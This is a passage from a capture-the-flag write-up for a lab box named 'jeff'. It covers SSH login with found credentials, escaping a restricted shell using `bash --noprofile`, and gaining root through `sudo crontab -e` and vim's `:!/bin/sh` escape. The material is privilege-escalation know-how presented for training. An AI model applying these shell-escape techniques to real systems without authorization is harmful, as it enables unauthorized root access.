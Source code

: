 There you go.. 

We know `ssh`  is open . Let's ssh into `jeff@jeff.thm` with the above creds

Listing out the files there's `user.flag` which is our first flag. Also you need to md5 the inside content to upload it. i will leave this to you

## Privilege Escalation

It's really easy to escalate to root.

But the issue is `jeff` is running on a restricted shell so we need to escape out of it

The one i used is

`ssh jeff@jeff.thm -t "bash --noprofile"`

What it does is it starts the remote shell without loading “rc” profile ( where most of the limitations are often configured) 

When you type `sudo -l`

```console
jeff@tryharder:~$ sudo -l
[sudo] password for jeff: 
Matching Defaults entries for jeff on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jeff may run the following commands on tryharder:
    (ALL) /usr/bin/crontab
jeff@tryharder:~$
```

Easy right ?

so i ran `sudo /usr/bin/crontab -e`

which opened `vim` and for getting shell you just need to type `:!/bin/sh`

<a href="/assets/img/thm/jeff/vim.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/jeff/vim.png"></a>
